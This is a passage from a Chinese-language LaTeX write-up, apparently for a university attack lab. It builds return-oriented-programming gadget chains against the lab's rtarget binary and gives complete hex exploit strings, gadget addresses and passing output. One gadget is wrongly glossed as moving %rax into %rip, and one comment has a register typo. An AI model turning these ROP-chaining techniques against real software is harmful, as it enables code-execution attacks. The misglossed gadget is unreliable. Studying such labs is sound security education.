00000000004019a7 <addval_219>:
4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
4019ad:	c3                   	retq  
\end{lstlisting}
    从 0x4019ab 开始等价于执行 popq \%rax; nop; retq;
\begin{lstlisting}
00000000004019a0 <addval_273>:
4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
4019a6:	c3                   	retq  
\end{lstlisting}
    从 0x4019a2 开始等价于执行 movq \%rax \%rip; retq;
    \item 因此答案如下(rtarget\_l4.txt,无注释):
\begin{lstlisting}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 // fill BUFFER_SIZE
ab 19 40 00 00 00 00 00 // popq %rax; retq
fa 97 b9 59 00 00 00 00 // value pop from the stack to %rax
a2 19 40 00 00 00 00 00 // movq %rax, %rip; retq
ec 17 40 00 00 00 00 00 // address of touch2
\end{lstlisting}
    \item 用 hex2raw 转化一下作为输入,成功跳转
\begin{lstlisting}
./hex2raw < rtarget_l4.txt > rtarget.l4
./rtarget -qi rtarget.l4    
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
\end{lstlisting}
\end{itemize}
\subsection{rtarget.l5}
\begin{itemize}
    \item 用 ROP 技术在 rtarget 上完成 ctarget.l3 的目的。
    \item 注意不能像 ctarget.l3 那样将 rsp + 30 作为一个立即数赋值给 rdi,
    因为 rtarget 是栈随机化的。
    \item 能不能不用绝对值而间接实现呢(注意不能直接动 rsp,这样会改变栈)?
\begin{lstlisting}
movq %rsp, %rax
addq xx, %rax
movq %rax, %rdi
\end{lstlisting}
    \item 但是 rtarget 中没有 add,我们需要找一种可以实现加法的方法,加载有效
    地址是用于计算的常见方法,并且在 rtarget 中直接是一个函数。查看 farm.c 可以
    发现它非常直白。
\begin{lstlisting}
long add_xy(long x, long y)
{
    return x+y;
}    
\end{lstlisting}
    其汇编代码如下:
\begin{lstlisting}
00000000004019d6 <add_xy>:
4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
4019da:	c3                   	retq  
\end{lstlisting}
    \item 我们可以写出我们所期望的汇编代码(写出来之后要去 gadget 里面找,没有就完蛋了)
\begin{lstlisting}
popq %rdi // give bias to rdi
movq %rsp, %rsi // give stl.top to rsi
callq <add_xy> // rax = rip + rsp = bias + stk.top
movq %rax, %rdi // rdi is the string pointer
\end{lstlisting}
    \item 找了半天连 popq \%rdi:5f 都没有找到,只能隔山打牛了(而且有的时候需要用eax之类的32位寄存器去隔山打牛)。
\begin{lstlisting}
00000000004019a7 <addval_219>:
4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
4019ad:	c3                   	retq  
\end{lstlisting}
    从 0x4019ab 开始等价于执行 popq \%rax; nop; retq;
\begin{lstlisting}
00000000004019db <getval_481>:
4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
4019e0:	c3                   	retq 
\end{lstlisting}
    从 0x4019dd 开始等价于执行 movl \%eax, \%edx; nop; retq;
\begin{lstlisting}
0000000000401a33 <getval_159>:      
401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
401a38:	c3                   	ret
\end{lstlisting}
    从 0x401a34 开始等价于执行 movl \%edx, \%ecx; cmpb \%cl, \%cl(这段代码只会给条件码赋值,无影响); retq;
\begin{lstlisting}
0000000000401a11 <addval_436>:
401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
401a17:	c3                   	ret
\end{lstlisting}
    从 0x401a13 开始等价于执行 movl \%ecx, \%esi; nop; nop; retq;
\begin{lstlisting}
0000000000401a03 <addval_190>:
401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
401a09:	c3                   	ret
\end{lstlisting}
    从 0x401a06 开始等价于执行 movq \%rsp, \%rax; retq;
\begin{lstlisting}
00000000004019a0 <addval_273>:
4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
4019a6:	c3                   	ret
\end{lstlisting}
    从 0x4019a2 开始等价于执行 movq \%rax, \%rdi; retq;
    \item 因此我们实际的汇编代码如下:
\begin{lstlisting}
popq  %rax
movl  %eax, %edx
movl  %edx, %ecx
movl  %ecx, %esi
movq  %rsp, %rax
movq  %rax, %rdi
call  <add_xy>
movq  %rax, %rdi
retq
\end{lstlisting}
    \item 答案如下(rtarget\_l5.txt,无注释):
\begin{lstlisting}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 // fill BUFFER_SIZE
ab 19 40 00 00 00 00 00 // popq %rax; retq
20 00 00 00 00 00 00 00 // bias is 0x20
dd 19 40 00 00 00 00 00 // movl %eax, %edx; retq
34 1a 40 00 00 00 00 00 // movl %edx, &ecx; retq
13 1a 40 00 00 00 00 00 // movl %ecx, %esi; retq
06 1a 40 00 00 00 00 00 // movq %rsp, %rax; retq (from now bias equals 0)
a2 19 40 00 00 00 00 00 // movq %rax, %rdi; retq 
d6 19 40 00 00 00 00 00 // callq <add_xy>
a2 19 40 00 00 00 00 00 // movq %rax, %rdi; retq
fa 18 40 00 00 00 00 00 // call <touch_3>
35 39 62 39 39 37 66 61 // cookie string
00 00 00 00             // end of string
\end{lstlisting}
    \item 用 hex2raw 转化一下作为输入,成功跳转
\begin{lstlisting}
./hex2raw < rtarget_l5.txt > rtarget.l5
./rtarget -qi rtarget.l5    
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 20 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 00 00 00
\end{lstlisting}
\end{itemize}
\end{document}

